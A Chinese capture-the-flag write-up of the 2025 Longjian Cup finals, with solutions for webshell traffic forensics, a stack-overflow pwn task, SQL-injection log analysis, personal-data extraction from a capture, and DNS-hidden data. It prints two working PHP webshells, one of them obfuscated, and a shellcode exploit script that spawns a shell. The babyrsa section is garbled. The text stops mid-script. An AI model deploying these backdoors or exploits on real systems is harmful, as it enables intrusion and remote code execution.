# 2025年第三届陇剑杯网络安全大赛 RHG决赛wp-先知社区

> **来源**: https://xz.aliyun.com/news/18957  
> **文章ID**: 18957

---

比赛的轮数30分钟进行一次，题目根本写不完，于是赛后开始了这篇文章，用于总结和复现

# 第一轮

## webshell

题目给了一个流量包，然后给了下面的要求  


可以看到有很多爆破的包



把这些文件dump下来看看具体是什么  
可以看到是黑客发送的payload，以及一个压缩包  
  
robots.txt里面得到了另一个php的东西  
  
去流量包里面找seCr3t.php  
dump下来打开发现奇奇怪怪的字符：  


提取下来base64解码得到压缩包密码

```
dGhpc0lzUGFzcw==
```

```
thisIsPass
```

解压得到了真正的indexa.php:

```
<?php
$t='e6R4RR_encode(@Rx(@gzcoRmpress($oR),$Rk)R);print("$p$kh$r$Rkf");}';
$h='ch(R"/$kh(.+)$kf/"R,@Rfile_get_RcontentRs("php://iRnput")R,R$m)==';
$d=str_replace('fU','','fUcrfUefUate_fufUnfUctifUon');
$N='1) {@Rob_starRt();@eRval(@RgzuncRRomprReRss(@x(@RbRase64_decode($';
$e='vkzJlR2VQbRzhPhLHS";RfunRction x(R$t,$k){$Rc=RstrleRn($kR);$Rl=Rs';
$Z='R$k="e10adc39R";$khR=R"49ba59RabbRe5R6";$kf="e057Rf20f883e";R$p="';
$S='m[1]),R$kR)));$o=@oRb_get_cRonteRnts()R;@ob_end_cleanR();$Rr=@bas';
$W='$j++,$i+R+){$o.R=$t{$i}^R$kR{R$j};}}return R$o;}if R(@preRRg_maRt';
$T='trlen($t)R;$o=""R;foRr($i=0;$i<$l;R){foRr($jR=0;($j<$c&&$i<$RlR);';
$F=str_replace('R','',$Z.$e.$T.$W.$h.$N.$S.$t);
$l=$d('',$F);$l();
?>
```

可以看出它实现了一个**Web Shell**（网页后门）  
去混淆：

```
<?php
$k = "e10adc39";
$kh = "49ba59abbe56";
$kf = "e057f20f883e";
$p = "vkzJl2VQbzhPhLHS";
function x($t, $k) {
    $c = strlen($k);
    $l = strlen($t);
    $o = "";
    for ($i = 0; $i < $l; ) {
        for ($j = 0; ($j < $c && $i < $l); $j++, $i++) {
            $o .= $t{$i} ^ $k{$j};
        }
    }
    return $o;
}
if (@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m) == 1) {
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]), $k)));
    $o = @ob_get_contents();
    @ob_end_clean();
    $r = @base64_encode(@gzcompress(@x($o, $k)));
    print("$p$kh$r$kf");
}
?>
```

这是一个典型的**加密Web Shell**，其工作原理如下：

### 1. **密钥设置**

* `$k = "e10adc39"`：加密密钥（用于异或运算）。
* `$kh` 和 `$kf` 是用于匹配HTTP请求中加密数据的标记（开头和结尾）。
* `$p` 是输出响应时的前缀。

### 2. **加解密函数**

函数 `x($t, $k)` 是一个简单的**异或加密/解密函数**：

* 将输入字符串 `$t` 与密钥 `$k` 进行循环异或操作。
* 由于异或操作是对称的，同一个函数既可加密也可解密。

### 3. **Web Shell 逻辑**

* 监听 `php://input`（即HTTP POST请求的原始数据）。
* 使用正则表达式匹配 `$kh` 和 `$kf` 之间的内容（即加密的指令）。
* 对匹配到的内容（`$m[1]`）进行Base64解码，然后用密钥 `$k` 解密（通过异或函数 `x`），再解压缩（`gzuncompress`）。
* 通过 `eval()` 执行解密后的代码（这就是Web Shell的核心：任意代码执行）。
* 捕获输出（`ob_get_contents`），加密并压缩后，以Base64编码形式返回，并包裹在 `$p$kh...$kf` 中。

根据我们之前得到的indexa.php(1-15),一个一个去解码即可得到以下信息

```
import base64
import gzip
import zlib
import os
import re

def xor_decrypt(data, key):
    """
    循环异或解密函数
    """
    key_bytes = key.encode('utf-8')
    key_len = len(key_bytes)
    output = bytearray()
    for i in range(len(data)):
        output.append(data[i] ^ key_bytes[i % key_len])
    return bytes(output)

def decode_with_different_methods(encrypted_data_b64, key):
    """
    尝试不同的解码方法
    """
    results = {}

    
    #  带填充的Base64解码
    try:
        # 添加填充字符
        padding = len(encrypted_data_b64) % 4
        if padding:
            encrypted_data_b64_padded = encrypted_data_b64 + '=' * (4 - padding)
        else:
            encrypted_data_b64_padded = encrypted_data_b64
            
        encrypted_data = base64.b64decode(encrypted_data_b64_padded)
        decrypted_data = xor_decrypt(encrypted_data, key)
        
        # 尝试gzip
        try:
            decompressed_data = gzip.decompress(decrypted_data)
            results['method_gzip_padded'] = decompressed_data.decode('utf-8', errors='ignore')
        except:
            pass
        
        # 尝试zlib
        try:
            decompressed_data = zlib.decompress(decrypted_data)
            results['method_zlib_padded'] = decompressed_data.decode('utf-8', errors='ignore')
        except:
            pass
        
    except Exception as e:
        results['method3_error'] = f"填充Base64解码失败: {str(e)}"
    
    
    return results

def process_file(filename):
    """
    处理文件并尝试多种解码方法
    """
    if not os.path.exists(filename):
        print(f"文件 {filename} 不存在")
        return
    
    try:
        with open(filename, 'r', encoding='utf-8', errors='ignore') as file:
            content = file.read()
        
        print(f"
正在处理文件: {filename}")
        print("=" * 80)
        
        # 已知的常量
        kh = "49ba59abbe56"
        kf = "e057f20f883e"
        key = "e10adc39"
        
        # 使用正则表达式提取所有kh和kf之间的内容
        pattern = re.compile(re.escape(kh) + r'(.*?)' + re.escape(kf))
        matches = pattern.findall(content)
        
        if not matches:
            print("未找到可解码的Web Shell通信数据")
            return
        
        for i, encrypted_data_b64 in enumerate(matches, 1):
            print(f"
加密数据 {i}: {encrypted_data_b64}")
            print("-" * 60)
            
            # 尝试多种解码方法
            results = decode_with_different_methods(encrypted_data_b64, key)
            
            if not results:
                print("所有解码方法都失败了")
                continue
                
            for method, result in results.items():
                print(f"{method}: {result}")
                
    except Exception as e:
        print(f"处理文件时出错: {str(e)}")

def main():
    # 处理所有indexa相关文件
    files_to_process = []
    for file in os.listdir('.'):
        if file.startswith('indexa') and (file.endswith('.php') or '(15)' in file or any(char.isdigit() for char in file)):
            files_to_process.append(file)
    
    if not files_to_process:
        print("未找到indexa相关文件")
        return
    
    # 按数字排序文件
    files_to_process.sort()
    
    for file in files_to_process:
        process_file(file)

if __name__ == '__main__':
    main()
```

```
正在处理文件: indexa(1).php
================================================================================

加密数据 1: Ha0D1FTUBzxlMgpgdw==
------------------------------------------------------------
method_zlib_padded: 58795

正在处理文件: indexa(10).php
================================================================================

加密数据 1: Ha17ryyqH+s15n9NTDPkjRN5HUuuTLkWLxz4Tk6q/3KyATDrcTQlrsHXWsmDdxghvJgpY/FiM9VoIAk
------------------------------------------------------------
method_zlib_padded: chdir('/app');@error_reporting(0);@system('ls 2>&1');

正在处理文件: indexa(11).php
================================================================================

加密数据 1: Ha17r0sp1vOpennMtKgb8KiwAHKRaQEz3bvC8pYoucwvG3rZ7jCusul68MOhmoqQQCipGI0/1tyAS2X4YT8ze9Ipbw==
------------------------------------------------------------
method_zlib_padded: core
index.html
indexa.php
robots.txt
seCr3t.php
something
www.zip


正在处理文件: indexa(12).php
================================================================================

加密数据 1: Ha17ryyqH+s15n9NTDPkjRN5HUuuTLkWLxz4Tk6q/3KyATDrcTQlrsHXWsnDRVTdThklRXL2KxBfGRtIfLqaIGfEMGGVeSfz
------------------------------------------------------------
method_zlib_padded: chdir('/app');@error_reporting(0);@system('echo "part2!@#" 2>&1');

正在处理文件: indexa(13).php
================================================================================

加密数据 1: Ha0bKUhJAmsRYdZjZGxWOx0=
------------------------------------------------------------
method_zlib_padded: part2!@#


正在处理文件: indexa(14).php
================================================================================

加密数据 1: Ha17ryyqH+s15n9NTDPkjRN5HUuuTLkWLxz4Tk6q/3KyATDrcTQlrsHXWslDRKURcdbXx/IHM1xxvdy1aOIJObE/JeE
------------------------------------------------------------
method_zlib_padded: chdir('/app');@error_reporting(0);@system('cat something 2>&1');

正在处理文件: indexa(15).php
================================================================================

加密数据 1: Ha07qCzuxHBJH7luLE8ZsGq8R6qoUDU5Krc3Dw==
------------------------------------------------------------
method_zlib_padded: The_Last_Part_U_Fin3

正在处理文件: indexa(2).php
================================================================================

加密数据 1: Ha1DKUlJ+RbvHnpMrEwZ8Kl651G010URyx0eKKm2Y3Yo//g2VFIDCNFl59ViY3iraNE
------------------------------------------------------------
method_zlib_padded: @error_reporting(0);@system('echo 40419');

正在处理文件: indexa(3).php
================================================================================

加密数据 1: Ha0DUFRSh91nMTRsZW4=
------------------------------------------------------------
method_zlib_padded: 40419


正在处理文件: indexa(4).php
================================================================================

加密数据 1: Ha1DKUlJ+RbvHnpMrEwZ8Kl651G01x0Rr/0bsBQrfBSs+R9PrSj/dLDh5NViY2TYang
------------------------------------------------------------
method_zlib_padded: @error_reporting(0);print(@gethostname());

正在处理文件: indexa(5).php
================================================================================

加密数据 1: Ha17LVXUA4wtAnkqLdczOXJpM/4=
------------------------------------------------------------
method_zlib_padded: ad7858f4fda8

正在处理文件: indexa(6).php
================================================================================

加密数据 1: Ha1F76VpMRhxdMcc4Wgqpt7HIZl7clHMfzVjGI5398UeCYj4otr4Qty2k/FM8xW15IPFQniG2vmbU68B990o3qn8Eel88c7RdEJMdp9zQSGfAh7KALw+iOOmgzv3I56XRQoerON06p5TAx92ha44/NC+qHje5whf6GAFnWDBF53ghJNSE7h774LbiVzJbAx7sGt1
------------------------------------------------------------
method_zlib_padded: @error_reporting(0);
                if(is_callable('posix_getpwuid')&&is_callable('posix_geteuid')) {
                    $u=@posix_getpwuid(@posix_geteuid());
                    if($u){
                        $u=$u['name'];
                    } else {
                        $u=getenv('username');
                    }
                    print($u);
                }


正在处理文件: indexa(7).php
================================================================================

加密数据 1: Ha0bq6tMMjlhWjGk
------------------------------------------------------------
method_zlib_padded: root

正在处理文件: indexa(8).php
================================================================================

加密数据 1: Ha1DKUlJ+RbvHnpMrEwZ8Kl651G010Vxq3n5TbYz5GqyZWNKTKn/ErRBeC5JKh12tOHk1WJjjOZ1ug
------------------------------------------------------------
method_zlib_padded: @error_reporting(0);@chdir('.')&&print(@getcwd());

正在处理文件: indexa(9).php
================================================================================

加密数据 1: Ha3jLkhLMzlmAjEQ
------------------------------------------------------------
method_zlib_padded: /app

正在处理文件: indexa.php
================================================================================

加密数据 1: Ha17LKqr5AnQAYdVsdc1OX0XM18
------------------------------------------------------------
method_zlib_padded: echo(58795);
```

* part1（黑客处于的工作目录）：从 indexa (9).php 中可知是`/app`
* part2（黑客输出的内容）：从 indexa (13).php 中可知是`part2!@#`
* part3（黑客找到的秘密）：从 indexa (15).php 中可知是`The_Last_Part_U_Fin3`  
   因此，最终的 FLAG 是： flag{/app\_part2!@#\_The\_Last\_Part\_U\_Fin3}

## find the way

代码分析：



find\_the\_way`函数：

* 声明了局部变量：`v1`、`v2`、`buf[160]`（160字节的缓冲区）、`dest_`（指向未知类型的指针）。
* 程序提示输入一个整数`v1`（表示偏移），然后从`buf[v1]`处拷贝`sizeof(dest_)`（8字节，因为`dest_`是指针）到`dest_`变量。
* 然后读取最多0xA0（160）字节到`buf`中（这里存在栈溢出，因为`buf`大小为160，但可以读取160字节，但注意`buf`之后是其他变量，包括`dest_`）。
* 接着输入`v2`（另一个整数），计算`v2 + v1`（`v1`是之前输入的偏移，但注意`v1`在读取`buf`后可能被覆盖？实际上，`v1`是整数，在栈上位于`buf`之后）。
* 最后，将`buf[v2]`（即`buf`数组的索引为`v2`的位置）设置为0（空字节）。 解题：

1. **第一个输入（v1=0x80）**： c

```
memcpy(&dest_, &buf[v1], sizeof(dest_));
```

这里将`buf[0x80]`处的8字节拷贝到`dest_`。虽然代码中似乎没有直接使用`dest_`，但这个操作可能用于其他目的或者只是干扰。

2. **关键利用 - 控制返回地址**： c

```
buf[v2] = 0;  // v2 = input_v2 + strlen(buf)
```

通过控制`v2`的值，可以在`buf`数组的任意位置写入一个零字节。

3. **精心构造的payload**：

* `b'\x00'`：确保`strlen(buf)`返回0，这样`v2 = input_v2 + 0 = input_v2`
* `b'\x90' * 0x78`：NOP滑板，增加命中shellcode的几率
* `b'\x48\x81\xc4\x00\x10\x00\x00'`：调整RSP指针的指令（`add rsp, 0x1000`）
* `ShellcodeMall.amd64.execve_bin_sh`：执行/bin/sh的shellcode

4. **计算正确的偏移**：

* 发送`v2 = 0xA8`（168）

给出exp:

```
#!/usr/bin/env python3
from pwncli import *

context.terminal = ["tmux", "splitw", "-h", "-l", "130"]
local_flag = sys.argv[1] if len(sys.argv) == 2 else 0

gift.elf = ELF(elf_path := './way')
if local_flag == "remote":
    addr = '173.31.73.75 9999'
    ip, port = re.split(r'[\s:]+', addr)
    gift.io = remote(ip, port)
else:
    gift.io = process(elf_path)
gift.remote = local_flag in ("remote", "nodbg")
init_x64_context(gift.io, gift)
libc = load_libc('/lib/x86_64-linux-gnu/libc.so.6')

cmd = '''
    b *0x4012AF
    b *0x401315
    c
'''
launch_gdb(cmd)

ru(b'Where is the your home:')
sl(str(0x80))
ru(b'Where can you find mother:')
s(b'\x00' + b'\x90' * 0x78 + b'\x48\x81\xc4\x00\x10\x00\x00' + ShellcodeMall.amd64.execve_bin_sh)
ru(b'How many moms did you find:')
sl(str(0xA8))

ia()

```

# 第二轮

## which\_sql

给了sql注入的日志，有上万条，肯定要找规律了

  
发现大都是>或者<，而!=很少，猜测后面的字符与flag有关，写个脚本提取一下

```
import re

def extract_values_from_log(filename):
    """
    从日志文件中提取所有))!=后面的数值
    """
    pattern = r'\)\)!=(\d+)'
    values = []
    
    try:
        with open(filename, 'r', encoding='utf-8') as file:
            content = file.read()
            matches = re.findall(pattern, content)
            values = [int(match) for match in matches]
    except FileNotFoundError:
        print(f"错误：文件 {filename} 未找到")
    except Exception as e:
        print(f"读取文件时出错: {e}")
    
    return values

def main():
    filename = 'access.log'
    values = extract_values_from_log(filename)
    
    if values:
        print("提取到的所有数值:")
        for value in values:
            print(value,end = " ")
        print(f"
共找到 {len(values)} 个数值")
    else:
        print("未找到匹配的数值")

if __name__ == "__main__":
    main()
```

然后10进制转字符串就行  


故flag为flag{wwwWow\_u\_2re\_sql\_master}

## babyrsa

很典型的格密码

超奇异曲线阶数 ∣Ep∣=p+1∣*E\*\*p*∣=*p*+1, ∣Eq∣=q+1∣*E\*\*q*∣=*q*+1.然后计算 dp=e−1mod  (p+1)*d\*\*p*=*e*−1mod(*p*+1), dq=e−1mod  (q+1)*d\*\*q*=*e*−1mod(*q*+1).然后 project C to E\_p and E\_q, compute P\_p and P\_q, then CRT.  
思路大概是这样，但没复现成功

# 第三轮

# 第四轮

## 数据安全1

题目要求按时间顺序提取出所有姓名和对应的身份证号码然后排序md5输出：flag{md5(md5(a)+md5(b))}  
给了流量包，打开发现传了很多json





利用scapy提取然后md5即可  
记不清比赛要求的是放在一起还是分开，索性就都写了：

```
from scapy.all import *
import json
import re

def extract_user_info_separate(pcap_file, name_output_file, id_output_file):
    # 读取pcapng文件
    packets = rdpcap(pcap_file)
    
    # 分别存储姓名和身份证号
    names = []
    id_cards = []
    
    for packet in packets:
        try:
            # 检查是否有TCP和Raw层（包含HTTP数据）
            if packet.haslayer(TCP) and packet.haslayer(Raw):
                # 获取负载数据
                payload = packet[Raw].load
                
                # 尝试解码为字符串
                try:
                    payload_str = payload.decode('utf-8', errors='ignore')
                    
                    # 查找JSON响应部分
                    if 'HTTP/1.0 200 OK' in payload_str and 'application/json' in payload_str:
                        # 找到JSON对象的开始位置
                        json_start = payload_str.find('{')
                        if json_start != -1:
                            json_str = payload_str[json_start:]
                            
                            # 尝试解析JSON
                            try:
                                data = json.loads(json_str)
                                
                                # 提取用户信息
                                if 'user' in data and isinstance(data['user'], dict):
                                    user_info = data['user']
                                    
                                    if 'username' in user_info:
                                        names.append(user_info['username'])
                                        print(f"找到姓名: {user_info['username']}")
                                    
                                    if 'idcard' in user_info:
                                        id_cards.append(user_info['idcard'])
                                        print(f"找到身份证: {user_info['idcard']}")
                                
                            except json.JSONDecodeError:
                                # 使用正则表达式直接提取
                                username_match = re.search(r'"username"\s*:\s*"([^"]+)"', json_str)
                                idcard_match = re.search(r'"idcard"\s*:\s*"([^"]+)"', json_str)
                                
                                if username_match:
                                    names.append(username_match.group(1))
                                    print(f"通过正则找到姓名: {username_match.group(1)}")
                                
                                if idcard_match:
                                    id_cards.append(idcard_match.group(1))
                                    print(f"通过正则找到身份证: {idcard_match.group(1)}")
                            
                except UnicodeDecodeError:
                    continue
                    
        except Exception as e:
            print(f"处理数据包时出错: {e}")
            continue
    
    # 写入姓名文件
    with open(name_output_file, 'w', encoding='utf-8') as f:
        for name in names:
            f.write(f"{name}
")
    
    # 写入身份证文件
    with open(id_output_file, 'w', encoding='utf-8') as f:
        for id_card in id_cards:
            f.write(f"{id_card}
")
    
    print(f"
提取完成！")
    print(f"找到 {len(names)} 个姓名，已保存到 {name_output_file}")
    print(f"找到 {len(id_cards)} 个身份证号，已保存到 {id_output_file}")
    
    # 输出到控制台
    print("
提取到的姓名：")
    print(",".join(names))
    
    print("
提取到的身份证号：")
    print(",".join(id_cards))

# 更简洁的版本
def extract_simple_separate(pcap_file, name_file, id_file):
    packets = rdpcap(pcap_file)
    names = []
    ids = []
    
    for packet in packets:
        try:
            if packet.haslayer(TCP) and packet.haslayer(Raw):
                payload = packet[Raw].load
                payload_str = payload.decode('utf-8', errors='ignore')
                
                # 使用正则表达式提取
                name_match = re.findall(r'"username"\s*:\s*"([^"]+)"', payload_str)
                id_match = re.findall(r'"idcard"\s*:\s*"([^"]+)"', payload_str)
                
                if name_match:
                    names.extend(name_match)
                
                if id_match:
                    ids.extend(id_match)
                    
        except:
            continue
    
    # 写入文件
    with open(name_file, 'w', encoding='utf-8') as f:
        f.write(",".join(names))
    
    with open(id_file, 'w', encoding='utf-8') as f:
        f.write(",".join(ids))
    
    print("简单提取完成！")
    print(f"姓名: {','.join(names)}")
    print(f"身份证: {','.join(ids)}")

# 使用示例
if __name__ == "__main__":
    pcap_file = "1.pcapng"
    name_output = "names.txt"
    id_output = "id_cards.txt"
    
    # 使用详细版本
    extract_user_info_separate(pcap_file, name_output, id_output)
    
    # 或者使用简洁版本
    # extract_simple_separate(pcap_file, name_output, id_output)
```

```
from scapy.all import *
import json
import re

def extract_user_info(pcap_file, output_file):
    # 读取pcapng文件
    packets = rdpcap(pcap_file)
    
    # 存储提取到的信息 (时间戳, 姓名, 身份证号)
    extracted_data = []
    
    for packet in packets:
        try:
            # 检查是否有TCP和Raw层（包含HTTP数据）
            if packet.haslayer(TCP) and packet.haslayer(Raw):
                # 获取负载数据
                payload = packet[Raw].load
                
                # 尝试解码为字符串
                try:
                    payload_str = payload.decode('utf-8', errors='ignore')
                    
                    # 查找JSON响应部分（通常在HTTP头之后）
                    if 'HTTP/1.0 200 OK' in payload_str and 'application/json' in payload_str:
                        # 找到JSON对象的开始位置（在HTTP头之后）
                        json_start = payload_str.find('{')
                        if json_start != -1:
                            json_str = payload_str[json_start:]
                            
                            # 尝试解析JSON
                            try:
                                data = json.loads(json_str)
                                
                                # 提取用户信息
                                if 'user' in data and isinstance(data['user'], dict):
                                    user_info = data['user']
                                    
                                    if 'username' in user_info and 'idcard' in user_info:
                                        timestamp = packet.time
                                        username = user_info['username']
                                        idcard = user_info['idcard']
                                        
                                        # 添加到结果列表
                                        extracted_data.append((timestamp, username, idcard))
                                        print(f"找到用户信息: {username}, {idcard}")
                                
                            except json.JSONDecodeError as e:
                                # 如果完整的JSON解析失败，尝试提取部分信息
                                print(f"JSON解析错误: {e}")
                                # 使用正则表达式直接提取
                                username_match = re.search(r'"username"\s*:\s*"([^"]+)"', json_str)
                                idcard_match = re.search(r'"idcard"\s*:\s*"([^"]+)"', json_str)
                                
                                if username_match and idcard_match:
                                    timestamp = packet.time
                                    username = username_match.group(1)
                                    idcard = idcard_match.group(1)
                                    extracted_data.append((timestamp, username, idcard))
                                    print(f"通过正则表达式找到用户信息: {username}, {idcard}")
                            
                except UnicodeDecodeError:
                    continue
                    
        except Exception as e:
            print(f"处理数据包时出错: {e}")
            continue
    
    # 按时间戳排序
    extracted_data.sort(key=lambda x: x[0])
    
    # 写入文件
    with open(output_file, 'w', encoding='utf-8') as f:
        for timestamp, username, idcard in extracted_data:
            f.write(f"{username},{idcard}
")
    
    print(f"
提取完成！共找到 {len(extracted_data)} 条记录，已保存到 {output_file}")
    
    # 输出到控制台
    print("
提取到的信息（按时间顺序）：")
    for timestamp, username, idcard in extracted_data:
        print(f"{username},{idcard}")

# 更精确的版本，专门针对你的数据结构
def extract_user_info_precise(pcap_file, output_file):
    packets = rdpcap(pcap_file)
    extracted_data = []
    
    for packet in packets:
        try:
            if packet.haslayer(TCP) and packet.haslayer(Raw):
                payload = packet[Raw].load
                
                # 转换为十六进制字符串查找JSON模式
                hex_payload = payload.hex()
                
                # 查找JSON特征（用户名和身份证字段）
                # 在十六进制中查找 "username" 和 "idcard"
                if b'username' in payload and b'idcard' in payload:
                    try:
                        # 尝试找到JSON开始位置
                        payload_str = payload.decode('utf-8', errors='ignore')
                        
                        # 查找完整的JSON对象
                        json_pattern = r'\{.*"username"\s*:\s*"[^"]+".*"idcard"\s*:\s*"[^"]+".*\}'
                        json_match = re.search(json_pattern, payload_str, re.DOTALL)
                        
                        if json_match:
                            json_str = json_match.group()
                            data = json.loads(json_str)
                            
                            if 'user' in data and isinstance(data['user'], dict):
                                user_data = data['user']
                                if 'username' in user_data and 'idcard' in user_data:
                                    extracted_data.append((packet.time, user_data['username'], user_data['idcard']))
                    
                    except (UnicodeDecodeError, json.JSONDecodeError):
                        # 如果解析失败，使用正则表达式直接提取
                        username_match = re.search(r'"username"\s*:\s*"([^"]+)"', payload_str)
                        idcard_match = re.search(r'"idcard"\s*:\s*"([^"]+)"', payload_str)
                        
                        if username_match and idcard_match:
                            extracted_data.append((packet.time, username_match.group(1), idcard_match.group(1)))
                            
        except Exception as e:
            continue
    
    # 排序并写入文件
    extracted_data.sort(key=lambda x: x[0])
    
    with open(output_file, 'w', encoding='utf-8') as f:
        for timestamp, username, idcard in extracted_data:
            f.write(f"{username},{idcard}
")
    
    print(f"精确提取完成！共找到 {len(extracted_data)} 条记录")

# 使用示例
if __name__ == "__main__":
    pcap_file = "1.pcapng"
    output_file = "user_info.txt"
    
    # 使用精确版本
    extract_user_info_precise(pcap_file, output_file)
    
    # 或者使用通用版本
    # extract_user_info(pcap_file, output_file)
```

这里flag用的是分开的md5  
身份证：612f0b71808124c5284a1b7d33d8c6fc  
姓名：01461aa86e6c77124fd547e1f179fc7f  
合并md5:31062b786bdc2a731c4120aa3a839f9f  
故flag:flag{31062b786bdc2a731c4120aa3a839f9f}

# 第五轮

## ShellDecoder

题目给了两个流量包，一个1.pcap,一个2.pcapng  
打开1.pcap流量包分析  


可知是让我们去提取dns流量包里面的16进制数，写个脚本就行：

```
from scapy.all import *
from scapy.layers.dns import DNSQR
import re

def extract_hex_from_dns(pcap_file, output_file):
    # 读取pcapng文件
    packets = rdpcap(pcap_file)
    
    # 存储提取的十六进制字符
    hex_chars = []
    
    for packet in packets:
        try:
            # 检查是否有DNS查询层
            if packet.haslayer(DNSQR):
                dns_query = packet[DNSQR]
                qname = dns_query.qname.decode('utf-8', errors='ignore')
                
                print(f"发现DNS查询: {qname}")
                
                # 匹配 ?.example.com 模式
                match = re.match(r'^([^\.]+)\.example\.com\.?$', qname)
                if match:
                    hex_part = match.group(1)
                    print(f"提取到部分: {hex_part}")
                    
                    # 检查是否是十六进制数（0-9, a-f, A-F）
                    if re.match(r'^[0-9a-fA-F]+$', hex_part):
                        hex_chars.append(hex_part)
                        print(f"是十六进制数: {hex_part}")
                    else:
                        hex_chars.append(' ')
                        print(f"不是十六进制数，替换为空格: {hex_part}")
                else:
                    print(f"不匹配模式: {qname}")
                    
        except Exception as e:
            print(f"处理数据包时出错: {e}")
            continue
    
    # 将结果连接成字符串
    result = ''.join(hex_chars)
    
    # 写入文件
    with open(output_file, 'w', encoding='utf-8') as f:
        f.write(result)
    
    print(f"
提取完成！结果已保存到 {output_file}")
    print(f"提取结果: {result}")
    print(f"长度: {len(result)} 个字符")

# 更详细的版本，显示更多信息
def extract_hex_detailed(pcap_file, output_file):
    packets = rdpcap(pcap_file)
    hex_chars = []
    
    for i, packet in enumerate(packets):
        try:
            if packet.haslayer(DNSQR):
                dns_query = packet[DNSQR]
                qname = dns_query.qname.decode('utf-8', errors='ignore')
                
                print(f"
数据包 {i+1}: {qname}")
                
                # 多种匹配模式
                patterns = [
                    r'^([^\.]+)\.example\.com\.?$',
                    r'^([^\.]+)\.example\.com$',
                    r'^([^\.]+)\.example\.com\.$'
                ]
                
                matched = False
                for pattern in patterns:
                    match = re.match(pattern, qname)
                    if match:
                        hex_part = match.group(1)
                        print(f"匹配模式 '{pattern}': {hex_part}")
                        
                        if re.match(r'^[0-9a-fA-F]+$', hex_part):
                            hex_chars.append(hex_part)
                            print(f"✓ 十六进制: {hex_part}")
                        else:
                            hex_chars.append(' ')
                            print(f"✗ 非十六进制 -> 空格: {hex_part}")
                        
                        matched = True
                        break
                
                if not matched:
                    print(f"不匹配任何模式: {qname}")
                    
        except Exception as e:
            print(f"数据包 {i+1} 错误: {e}")
            continue
    
    result = ''.join(hex_chars)
    
    with open(output_file, 'w', encoding='utf-8') as f:
        f.write(result)
    
    print(f"
最终结果: {result}")
    print(f"共处理 {len(hex_chars)} 个DNS查询")

# 批量处理多个pcap文件的版本
def extract_hex_from_multiple(pcap_files, output_file):
    all_hex_chars = []
    
    for pcap_file in pcap_files:
        print(f"
处理文件: {pcap_file}")
        packets = rdpcap(pcap_file)
        
        for packet in packets:
            try:
                if packet.haslayer(DNSQR):
                    dns_query = packet[DNSQR]
                    qname = dns_query.qname.decode('utf-8', errors='ignore')
                    
                    match = re.match(r'^([^\.]+)\.example\.com\.?$', qname)
                    if match:
                        hex_part = match.group(1)
                        
                        if re.match(r'^[0-9a-fA-F]+$', hex_part):
                            all_hex_chars.append(hex_part)
                        else:
                            all_hex_chars.append(' ')
                            
            except Exception:
                continue
    
    result = ''.join(all_hex_chars)
    
    with open(output_file, 'w', encoding='utf-8') as f:
        f.write(result)
    
    print(f"合并结果: {result}")

# 使用示例
if __name__ == "__main__":
    pcap_file = "1.pcap"  # 你的DNS流量包文件
    output_file = "extracted_hex.txt"
    
    # 使用基本版本
    extract_hex_from_dns(pcap_file, output_file)
    
    # 或者使用详细版本
    # extract_hex_detailed(pcap_file, output_file)
```

得到结果：

```
56 6d 30 78 64 31 4d 77 4e 55 64 69 52 6d 52 70 55 6d 31 53 56 56 59 77 5a 44 52 57 62 47 78 30 59 33 70 47 56 31 4a 73 62 44 4e 58 61 31 70 50 56 6a 46 4b 64 47 56 47 57 6c 5a 4e 62 6b 4a 55 56 6d 78 56 65 46 59 79 53 6b 56 55 62 47 68 6f 54 57 73 77 65 46 5a 73 59 33 68 54 4d 55 6c 34 56 32 35 47 56 57 4a 48 61 47 39 55 56 6d 68 44 56 56 5a 61 63 56 46 74 64 46 4e 4e 52 46 59 77 56 54 4a 30 59 56 64 48 53 6b 64 6a 53 45 4a 57 59 57 74 77 64 6c 52 58 65 47 74 57 4d 56 5a 79 57 6b 5a 6b 54 6c 5a 75 51 6c 68 57 52 6c 70 58 56 6a 4a 47 53 46 5a 75 52 6c 4a 57 52 33 4d 35
```

16进制转字符之后解码8次Base64  
混合解码结果:yQkCAH1x@HdY811u

打开2.pcapng，发现有大量爆破的行为  


在tcp流10402里面发现一段base64  




另外一段base64解码：

  
但并没有用，这样的陷阱还有10475-10480左右的一些  
真正的加密逻辑在  
10336流  


这段代码是一个经过混淆的PHP后门/webshell，实际执行的代码是

```
if(isset($_COOKIE['cm'])){
    ob_start();
    system(base64_decode($_COOKIE['cm']).' 2>&1');
    setcookie($_COOKIE['cn'],$_COOKIE['cp'].base64_encode(ob_get_contents()).$_COOKIE['cp']);
    ob_end_clean();
}
```

去找a.php有关的一些payload  
可以把"type {数字}"base64加密搜索去搜  


第一个数据解密

1. **URL解码**: `PIc%40MmQzNDM5NjI2NjJkMzkzMDY2MzYyZDMwMzQ2NTY1MzYzMjY1NjE2MzYyMzAzNjdkPIc%40`

* `%40` 解码为 `@`
* 结果: `PIc@MmQzNDM5NjI2NjJkMzkzMDY2MzYyZDMwMzQ2NTY1MzYzMjY1NjE2MzYyMzAzNjdkPIc@`

1. **提取base64部分**: 分隔符是 `@`，所以中间部分是 `MmQzNDM5NjI2NjJkMzkzMDY2MzYyZDMwMzQ2NTY1MzYzMjY1NjE2MzYyMzAzNjdk`

解码：（base64+hex)（这是type0.txt)

```
-49bf-90f6-04ee62eacb06}
```

写个脚本提取一下

```
from scapy.all import *
from scapy.layers.http import HTTPRequest, HTTPResponse
import base64
from urllib.parse import unquote
import re

def extract_and_decode_streams(pcap_file, output_file):
    # 读取pcapng文件
    packets = rdpcap(pcap_file)
    
    # 存储提取的信息
    stream_data = []
    
    # 用于跟踪TCP流
    streams = {}
    
    for packet in packets:
        try:
            # 检查是否有TCP层
            if packet.haslayer(TCP):
                # 创建流标识符
                if packet.haslayer(IP):
                    src_ip = packet[IP].src
                    dst_ip = packet[IP].dst
                    src_port = packet[TCP].sport
                    dst_port = packet[TCP].dport
                    
                    stream_id = f"{src_ip}:{src_port}-{dst_ip}:{dst_port}"
                    
                    # 检查是否有HTTP请求
                    if packet.haslayer(HTTPRequest):
                        http_req = packet[HTTPRequest]
                        
                        # 检查是否是目标URL
                        if hasattr(http_req, 'Path') and '/upload/upload/a.php' in http_req.Path.decode('utf-8', errors='ignore'):
                            print(f"找到目标请求: {stream_id}")
                            
                            # 提取Cookie
                            cookie_header = None
                            if hasattr(http_req, 'Cookie'):
                                cookie_header = http_req.Cookie.decode('utf-8', errors='ignore')
                            elif hasattr(http_req, 'cookie'):
                                cookie_header = http_req.cookie.decode('utf-8', errors='ignore')
                            
                            if cookie_header and 'cm=' in cookie_header:
                                # 解析Cookie参数
                                cookies = {}
